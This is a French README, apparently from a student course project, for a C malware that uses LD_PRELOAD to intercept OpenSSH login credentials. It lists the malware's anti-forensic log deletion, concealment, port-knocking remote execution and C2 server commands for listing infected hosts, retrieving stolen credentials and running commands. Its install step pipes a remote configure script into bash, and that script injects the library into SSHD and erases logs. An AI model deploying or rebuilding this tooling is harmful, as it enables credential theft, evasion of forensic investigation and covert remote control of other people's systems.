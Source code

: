 # README - Malware LD_PRELOAD - 

Crée par Zacharie ROGER en classe 3SI1.

## Description
Ce projet est un malware en C utilisant la technique **LD_PRELOAD** pour intercepter et extraire les informations d'identification (credentials) des connexions SSH. Il inclut des fonctionnalités avancées de furtivité, d'anti-forensic, et de contrôle à distance via un serveur C2 (Command & Control).

## Fonctionnalités principales
- **Extraction des credentials SSH** : interception des identifiants des utilisateurs se connectant via OpenSSH.
- **Empêchement de l'ouverture d'un fichier spécifique**.
- **Techniques anti-forensic** : suppression des logs système.
- **Port Knocking** : pour exécuter des commandes à distance de manière discrète.
- **Désinstallation cachée** : désactivation du malware via un signal spécifique envoyé par le serveur C2.

## Installation
1. **Téléchargement et configuration :**
   ```bash
   bash configure.sh ou curl -s http://localhost/configure.sh | bash
   ```
   Ce script :
   - Télécharge la bibliothèque malveillante.
   - Configure `LD_PRELOAD` pour charger le malware à chaque session.
   - Redémarre SSHD avec LD_PRELOAD pour injecter la librairie.
   - Masque la présence du malware.
   - Efface les logs pour réduire les traces.

## Utilisation du serveur C2
Le serveur C2 permet de :
- Lister les hôtes infectés.
- Récupérer les credentials volés.
- Envoyer des commandes aux clients.
- Déclencher la désinstallation du malware.

### Lancement du serveur C2 :
```bash
./c2_server
```

### Commandes disponibles :
- `list` : Affiche les hôtes infectés.
- `credentials` : Montre les identifiants volés.
- `exec <commande>` : Exécute une commande sur un client infecté.
- `uninstall <ID_client>` : Désinstalle le malware sur la machine ciblée.

## Structure du projet
- `src/` : Code source du malware.
- `include/` : Fichiers d'en-tête.
- `c2_server/` : Code source du serveur C2.
- `configure.sh` : Script d'installation et de dissimulation.
- `Makefile` : Compilation du projet.

## Compilation
```bash
make
```
